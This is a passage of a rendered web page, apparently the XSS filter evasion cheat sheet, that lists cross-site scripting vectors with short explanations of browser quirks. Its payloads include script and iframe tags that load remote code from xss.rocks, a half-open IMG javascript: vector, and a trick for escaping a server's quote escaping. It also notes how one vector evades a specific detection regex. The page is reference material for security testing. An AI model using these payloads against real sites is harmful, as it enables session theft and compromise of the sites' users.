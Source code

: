 <p>In Firefox and Netscape 8.1 in the Gecko rendering engine mode you don't actually need the <code>\&gt;&lt;/SCRIPT&gt;</code> portion of this Cross Site Scripting vector. Firefox assumes it's safe to close the HTML tag and add closing tags for you. How thoughtful! Unlike the next one, which doesn't effect Firefox, this does not require any additional HTML below it. You can add quotes if you need to, but they're not needed generally, although beware, I have no idea what the HTML will end up looking like once this is injected:</p>
<pre><code>&lt;SCRIPT SRC=http://xss.rocks/xss.js?&lt; B &gt;
</code></pre>
<h2><a id="user-content-protocol-resolution-in-script-tags" class="anchor" aria-hidden="true" href="#protocol-resolution-in-script-tags"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Protocol resolution in script tags</h2>
<p>This particular variant was submitted by Łukasz Pilorz and was based partially off of Ozh's protocol resolution bypass below. This cross site scripting example works in IE, Netscape in IE rendering mode and Opera if you add in a <code>&lt;/SCRIPT&gt;</code> tag at the end. However, this is especially useful where space is an issue, and of course, the shorter your domain, the better. The ".j" is valid, regardless of the encoding type because the browser knows it in context of a SCRIPT tag.</p>
<pre><code>&lt;SCRIPT SRC=//xss.rocks/.j&gt;
</code></pre>
<h2><a id="user-content-half-open-htmljavascript-xss-vector" class="anchor" aria-hidden="true" href="#half-open-htmljavascript-xss-vector"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Half open HTML/JavaScript XSS vector</h2>
<p>Unlike Firefox the IE rendering engine doesn't add extra data to you page, but it does allow the javascript: directive in images. This is useful as a vector because it doesn't require a close angle bracket. This assumes there is any HTML tag below where you are injecting this cross site scripting vector. Even though there is no close "&gt;" tag the tags below it will close it. A note: this does mess up the HTML, depending on what HTML is beneath it. It gets around the following NIDS regex: <code>/((\\%3D)|(=))\[^\\n\]\*((\\%3C)|\&lt;)\[^\\n\]+((\\%3E)|\&gt;)/</code> because it doesn't require the end "&gt;". As a side note, this was also affective against a real world XSS filter I came across using an open ended <code>&lt;IFRAME</code> tag instead of an <code>&lt;IMG</code> tag:</p>
<pre><code>&lt;IMG SRC="`&lt;javascript:alert&gt;`('XSS')"
</code></pre>
<h2><a id="user-content-double-open-angle-brackets" class="anchor" aria-hidden="true" href="#double-open-angle-brackets"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Double open angle brackets</h2>
<p>Using an open angle bracket at the end of the vector instead of a close angle bracket causes different behavior in Netscape Gecko rendering. Without it, Firefox will work but Netscape won't:</p>
<pre><code>&lt;iframe src=http://xss.rocks/scriptlet.html &lt;
</code></pre>
<h2><a id="user-content-escaping-javascript-escapes" class="anchor" aria-hidden="true" href="#escaping-javascript-escapes"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Escaping JavaScript escapes</h2>
<p>When the application is written to output some user information inside of a JavaScript like the following: <code>&lt;SCRIPT&gt;var a="$ENV{QUERY\_STRING}";&lt;/SCRIPT&gt;</code> and you want to inject your own JavaScript into it but the server side application escapes certain quotes you can circumvent that by escaping their escape character. When this gets injected it will read <code>&lt;SCRIPT&gt;var a="\\\\";alert('XSS');//";&lt;/SCRIPT&gt;</code> which ends up un-escaping the double quote and causing the Cross Site Scripting vector to fire. The XSS locator uses this method.:</p>